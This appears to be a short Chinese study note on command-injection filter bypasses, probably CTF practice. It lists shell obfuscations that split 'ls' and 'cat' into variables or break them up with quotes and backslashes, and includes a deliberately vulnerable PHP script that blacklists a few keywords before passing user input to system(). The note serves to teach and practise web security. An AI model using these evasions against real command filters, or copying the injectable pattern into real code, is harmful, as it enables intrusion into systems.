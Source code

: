 ![](assets/markdown-img-paste-20180416144855304.png)


### 命令执行绕过技巧

#### 黑名单绕过  

```
执行ls命令：
a=l;b=s;$a$b
cat hello文件内容：
a=c;b=at;c=he;d=llo;$a$b ${c}${d}
单引号、双引号
c""at flag
c""at fl""ag
c""at fl''ag
反斜线
c\at fl\ag
```

test9.php
```php
<?php
$test = $_GET['cmd'];
$test = str_replace("cat", "", $test);
$test = str_replace("ls", "", $test);
$test = str_replace(" ", "", $test);
$test = str_replace("pwd", "", $test);
$test = str_replace("wget", "", $test);
var_dump($test);
system("ls -al '$test'");
?>
```
